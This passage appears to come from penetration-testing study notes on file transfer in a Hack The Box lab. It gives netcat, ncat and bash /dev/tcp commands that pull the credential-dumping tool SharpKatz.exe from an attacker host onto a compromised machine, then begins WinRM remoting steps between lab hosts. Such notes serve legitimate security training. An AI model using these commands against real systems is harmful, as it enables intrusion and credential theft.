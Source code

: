     - `-q 0`: Closes connection after transfer (Netcat).
    - `--recv-only`/`--send-only`: Ensures connection closes post-transfer (Ncat).
- **Method 2: Pwnbox Listens (Bypasses Inbound Firewall)**
  - Pwnbox (listen):
    - Netcat:
      ```bash
      sudo nc -l -p 443 -q 0 < SharpKatz.exe
      ```
    - Ncat:
      ```bash
      sudo ncat -l -p 443 --send-only < SharpKatz.exe
      ```
  - Compromised Machine (connect):
    - Netcat:
      ```bash
      nc 192.168.49.128 443 > SharpKatz.exe
      ```
    - Ncat:
      ```bash
      ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
      ```
- **Method 3: Bash `/dev/tcp` (No Netcat/Ncat on Compromised Machine)**
  - Pwnbox (listen):
    - Netcat:
      ```bash
      sudo nc -l -p 443 -q 0 < SharpKatz.exe
      ```
    - Ncat:
      ```bash
      sudo ncat -l -p 443 --send-only < SharpKatz.exe
      ```
  - Compromised Machine (connect):
    ```bash
    cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
    ```
- **Note**: Reverse operation transfers files from compromised machine to Pwnbox.

## PowerShell Remoting (WinRM)
- **Context**: Used when HTTP/HTTPS/SMB are unavailable; leverages PowerShell Remoting (WinRM) for remote command execution and file transfers.
- **Requirements**: Administrative access, Remote Management Users group membership, or explicit permissions; enabled by default with HTTP (TCP/5985) and HTTPS (TCP/5986) listeners.
- **Scenario**: Transfer files between DC01 (source) and DATABASE01 (target) with administrative privileges.
- **Steps**:
  - Verify WinRM connectivity (from DC01):
    ```powershell
    whoami
    # Output: htb\administrator
    hostname
    # Output: DC01
    Test-NetConnection -ComputerName DATABASE01 -Port 5985
    # Output: TcpTestSucceeded: True
    ```
  - Create session:
    ```powershell
    $Session = New-PSSession -ComputerName DATABASE01
    ```